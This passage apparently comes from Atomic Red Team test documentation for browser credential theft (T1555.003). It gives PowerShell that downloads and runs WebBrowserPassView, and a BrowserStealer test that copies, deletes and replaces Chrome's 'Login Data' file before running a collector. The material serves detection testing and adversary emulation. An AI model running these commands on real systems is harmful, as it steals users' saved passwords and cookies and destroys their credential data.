 | Name                    | Description                               | Type   | Default Value                                                        |
| ----------------------- | ----------------------------------------- | ------ | -------------------------------------------------------------------- |
| webbrowserpassview_path | Path to the WebBrowserPassView executable | string | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;WebBrowserPassView.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Start-Process "#{webbrowserpassview_path}"
Start-Sleep -Second 4
Stop-Process -Name "WebBrowserPassView"
```

#### Dependencies: Run with `powershell`!

##### Description: Check if WebBrowserPassView.exe exists in the specified path #{webbrowserpassview_path}

##### Check Prereq Commands:

```powershell
if (Test-Path "#{webbrowserpassview_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1555.003\bin\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1555.003/bin/WebBrowserPassView.exe -OutFile "#{webbrowserpassview_path}"
```

<br/>
<br/>

## Atomic Test #16 - BrowserStealer (Chrome / Firefox / Microsoft Edge)

[Github Repo](https://github.com/SaulBerrenson/BrowserStealer) Simple password/cookies stealer for chrome, edge, and gecko based browsers (30 listed working). This attack simulates stealing the data from the browser files and printing them to the command line.
If using to test with Firefox, if the browser is x64 you need to use the x64 build

**Supported Platforms:** Windows

**auto_generated_guid:** 6f2c5c87-a4d5-4898-9bd1-47a55ecaf1dd

#### Attack Commands: Run with `powershell`!

```powershell
Copy-Item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" -Destination "PathToAtomicsFolder\..\ExternalPayloads" > $null
Remove-Item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" > $null
Copy-Item "$env:PathToAtomicsFolder\T1555.003\src\Login Data" -Destination "$env:localappdata\Google\Chrome\User Data\Default\" > $null
cd "$env:PathToAtomicsFolder\T1555.003\bin"
.\BrowserCollector.exe
```
